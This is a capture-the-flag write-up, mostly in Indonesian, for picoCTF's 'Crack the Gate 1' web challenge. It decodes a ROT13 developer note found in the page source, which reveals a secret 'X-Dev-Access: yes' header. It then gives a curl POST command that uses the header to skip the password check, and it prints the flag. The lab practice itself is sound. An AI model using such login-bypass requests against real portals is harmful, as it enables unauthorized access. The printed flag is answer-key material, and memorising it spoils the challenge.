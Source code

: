 Crack the Gate 1

Author: Yahaya Meddy

Description

We’re in the middle of an investigation. One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal. We’ve uncovered the email address he uses to log in: ctf-player@picoctf.org. Unfortunately, we don’t know the password, and the usual guessing techniques haven’t worked. But something feels off... it’s almost like the developer left a secret way in. Can you figure it out?

# Langkah
1. Jalankan instansinya dahulu lalu masuk ke website tersebut pada link yang muncul.
2. kita coba cek web tersebut dengan inspect, dan terdapat clue yang cukup besar.
		
		ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" 

3. Jika kita ubah tersebut dengan ROT13 (dengan website cyberchef), hasilnya akan seperti ini

		NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes" 

4. secara singkat, maksud dari X-Dev-Access itu seperti kita bisa mengakses website tersebut khusus sebagai developer yang dimana ini adalah custom atau header buatan.
5. Karena kita mengetahui ini, kita bisa gunakan curl pada terminal dan langsung seperti ini saja.
		
		curl -X POST -H "X-Dev-Access: yes" -H "Content-Type: application/json" -d '{"email":"ctf-player@picoctf.org", "password":"test"}' http://linkpicoinstansikalian/login

6. maksud dari kode tersebut kita ngepost/mengirim sebagai developer dengan email dan password yang tersedia untuk menuju login pada website website tersebut. (yang dimana disini kita bypass password yang kita tidak ketahui)



# Flag
picoCTF{brut4_f0rc4_83812a02}
